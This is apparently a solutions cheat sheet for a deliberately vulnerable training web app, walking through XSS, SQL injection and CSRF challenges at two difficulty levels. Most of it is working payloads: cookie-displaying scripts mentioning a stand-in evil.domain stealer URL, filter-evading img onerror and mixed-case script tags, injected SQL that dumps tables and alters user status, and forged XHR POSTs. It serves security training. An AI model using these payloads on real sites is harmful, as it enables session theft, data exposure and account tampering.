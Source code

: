 # Solutions for the WebSec Challenges

This is a short cheat sheet for the challenge solutions.

## Normal Difficulty

### Reflective XSS:

*overview.php*

- Enter code in product search bar

```html
<script>alert(document.cookie);</script>
```

- Copy the displayed cookie from the alert box (with or without cookie name)

- Enter cookie in the new popup

- (optional) Trigger the popup manually by using the link (Do you want to enter the Challenge Cookie?) beneath the search field

### Stored XSS:

*product.php*


- Enter code in product comment field

```html
<script>alert("evil.domain/cookie.php?c=" + document.cookie);</script>
```

- Accept to steal the session of 'Elliot' by clicking OK

- Add 1 Banana Slicer to Elliot's shopping cart

### SQLi:

*friends.php*

- Find the necessary table name by reading the instructions and output the whole table to find the important field names

```SQL
'; SELECT * FROM users;--
```

- Enter The SQL code below in the user search bar to upgrade to premium status

```SQL
'; UPDATE users SET user_status = 'premium' WHERE username = '<username>';--
```

### CSRF:

*contact.php*

Here you have a total of three options:

1. Use the inspector to manipulate the product comment field to send a post request with the corresponding input field names to contact.php

2. Manipulate the product comment field with the JavaScript below and then post a comment with the message you want to send

```html
<script>
var frm = document.getElementById('CSRForm');
frm.action = "contact.php";
document.getElementById('challengeUsername').value="elliot";
document.getElementById('challengePost').name="userPost";
</script>
```

3. Send a post request via XHR with the code below from any input field on the site that is vulnerable to XSS attacks (product search and comments)

```html
<script>
const xhr = new XMLHttpRequest();
xhr.open("POST", "contact.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("uname=elliot&userPost=pwned");
</script>
```

## HARD Difficulty

### Reflective XSS:

*overview.php*

- Enter code in product search bar

```html
<img src="" onerror=javascript:alert(document.cookie)>
```

- Copy the displayed cookie from the alert box (with or without cookie name)

- Enter cookie in the new popup

- (optional) Trigger the popup manually by using the link (Do you want to enter the Challenge Cookie?) beneath the search field


### Stored XSS:

*product.php*


- Enter code in product comment field

```html
<!-- NO space between the string and document.cookie -->
<img src="" onerror=javascript:confirm("evil.domain/cookie.php?c="+document.cookie)>
```

- Accept to steal the session of 'Elliot' by clicking OK

- Add 1 Banana Slicer to Elliot's shopping cart


### SQLi:

*friends.php*

- disable the `maxlength` attribute for the search field with the inspector

- Find the necessary table names by running the code below

```SQL
';SELECT * FROM sqlite_master;--
```

- Enter the SQL code in the user search bar below to update to premium status

```SQL
'; UPDATE premium_users SET status='premium' WHERE username='<username>';--
```

### CSRF:

- Get Elliot's CSRF token from the friends database

```SQL
'; SELECT * FROM users;--
```

Now, you have only 2 options left (since the product comment field is now better secured against XSS attacks):

1. Use the inspector to manipulate the product comment field to send a post request with the corresponding input field names to contact.php (including the token)

2. Send a post request via XHR with the code below from any input field on the site that is vulnerable to XSS attacks (product search and comments)

```html
<ScRiPt>
const xhr = new XMLHttpRequest();
xhr.open("POST", "contact.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("uname=elliot&userPost=pwned&utoken=<token>");
</ScRiPt>
```